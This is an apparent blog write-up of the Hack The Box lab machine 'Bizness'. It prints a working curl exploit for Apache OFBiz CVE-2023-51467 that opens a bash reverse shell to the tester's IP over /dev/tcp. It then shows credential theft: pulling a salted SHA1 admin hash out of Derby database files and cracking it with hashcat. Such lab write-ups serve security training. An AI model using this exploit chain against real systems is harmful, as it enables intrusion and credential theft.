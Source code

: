 ```yaml
---
author: pl4int3xt
layout: post
title: Bizness
date: '2024-01-12'
description: "Bizness is an easy linux machine from HTB"
categories: [HTB]
---
```


## MACHINE INFO

> **[Bizness](https://app.hackthebox.com/machines/Bizness)** is an easy linux machine which leverages a CVE on `Apache OFBiz` to gain the initial foothold. To escalate privileges we search for hashes in derby db files and decrypt them to get the root password. 

## Enumeration

We perform a quick scan to see the open ports

```shell
sudo nmap -p- --min-rate 10000 10.10.11.252
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-11 20:03 EAT
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.83s latency).

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
443/tcp   open  https
34603/tcp open  unknown
```

We then perform an agressive scan on the found open ports

```shell
sudo nmap -A -p 22,80,443,34603 10.10.11.252
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.72s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_http-server-header: nginx/1.18.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: BizNess Incorporated
34603/tcp open  tcpwrapped
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   706.41 ms 10.10.16.1
2   297.16 ms bizness.htb (10.10.11.252)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.93 seconds
```

We add the ip to our hosts file 
```bash
echo '10.10.11.252 bizness.htb' | sudo tee -a /etc/hosts
```

The website does not have much information 

![img-description](/img/bizness/1.png)

Let's try more enumeration on the directories

```shell
pl4int3xt@archlinux ~> ffuf -w ~/Downloads/wordlists/seclists/directory-list-2.3-small.txt:FUZZ -u https://bizness.htb/FUZZ -mc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : https://bizness.htb/FUZZ
 :: Wordlist         : FUZZ: /home/pl4int3xt/Downloads/wordlists/seclists/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

control                 [Status: 200, Size: 34633, Words: 10468, Lines: 492, Duration: 3322ms]
```

We get a directory named control let's continue and enumerate the control directory

```shell
pl4int3xt@archlinux ~> ffuf -w ~/Downloads/wordlists/seclists/directory-list-2.3-small.txt:FUZZ -u https://bizness.htb/control/FUZZ -fw 10468

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : https://bizness.htb/control/FUZZ
 :: Wordlist         : FUZZ: /home/pl4int3xt/Downloads/wordlists/seclists/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 10468
________________________________________________

login                   [Status: 200, Size: 11060, Words: 1236, Lines: 186, Duration: 5932ms]
help                    [Status: 200, Size: 10756, Words: 1182, Lines: 180, Duration: 5426ms]
main                    [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 3464ms]
view                    [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 3551ms]
logout                  [Status: 200, Size: 10756, Words: 1182, Lines: 180, Duration: 618ms]
views                   [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 3998ms]
```

We get a login page which is running apache ofbiz and the release is 18.12 which has a command injection vulnerability [CVE-2023-51467](https://vulncheck.com/blog/ofbiz-cve-2023-51467)

![img-description](/img/bizness/2.png)

we craft our payload to get a reverse shell as stated in this [Article]((https://vulncheck.com/blog/ofbiz-cve-2023-51467))

```shell
curl -kv -H "Host: bizness.htb" -d "groovyProgram=x=new String[3];x[0]='bash';x[1]='-c';x[2]='bash -i >%26 /dev/tcp/10.10.16.59/9001 0>%261;';x.execute();" "https://bizness.htb/webtools/control/ProgramExport/?requirePasswordChange=Y&PASSWORD=lobster&USERNAME=albino"
```

Running the curl request we gain the initial foothold 

```shell
pl4int3xt@archlinux ~> nc -nlvp 9001
Connection from 10.10.11.252:43578
bash: cannot set terminal process group (719): Inappropriate ioctl for device
bash: no job control in this shell
ofbiz@bizness:/opt/ofbiz$
```

After running linpeas we get some interesting derby database files 

```
╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/var/log/auth.log
/var/log/journal/5e1bbbd9ec5d475ca2f8372a972bd975/user-1001.journal
/var/log/journal/5e1bbbd9ec5d475ca2f8372a972bd975/system.journal
/var/log/syslog
/var/log/daemon.log
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c6850.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/cde61.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c2e1.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c14ad1.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/cde51.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/cce71.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c6861.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/cce61.dat
/opt/ofbiz/runtime/data/derby/ofbiz/log/log32.dat
/opt/ofbiz/runtime/logs/error.log
/opt/ofbiz/runtime/logs/access_log..2024-01-12
/opt/ofbiz/runtime/logs/ofbiz.log
/tmp/hsperfdata_ofbiz/719
/tmp/hsperfdata_ofbiz/554
/tmp/hsperfdata_ofbiz/849
```

We search for all .dat files and compile them together

```shell
find / -name '*.dat' -type f 2>/dev/null > /tmp/datfiles
```

Searching for SHA strings in the compiled file we come across this

```shell
ofbiz@bizness:/tmp$ cat datfiles | xargs strings | grep SHA
cat datfiles | xargs strings | grep SHA
strings: /var/cache/debconf/passwords.dat: Permission denied
SHAREHOLDER
SHAREHOLDER
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
SHA-256
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
MARSHALL ISLANDS
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I!! 
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I!! 
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
SHA-256
SHA-256
```
We have a sha1 salted hash

> The $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I contains 3 parts
> * $SHA = shows this is SHA1 hash
> * $d = this is the salt value
> * $uP0_QaVBpDWFeo8-dRzDqRwXQ2I = bas64 encoded hash value

To crack this with hashcat we first need to decode it and convert it to hex. Let's do that with cyberchef

![img-description](/img/bizness/3.png)

```
cat hash
b8fd3f41a541a435857a8f3e751cc3a91c174362:d
```
Now let's crack the hash
```
hashcat -m 110 -a 0 hash /usr/share/wordlists/rockyou.txt
```
cracking the hash we get a password and we successfully login to root.

![img-description](/img/bizness/4.png)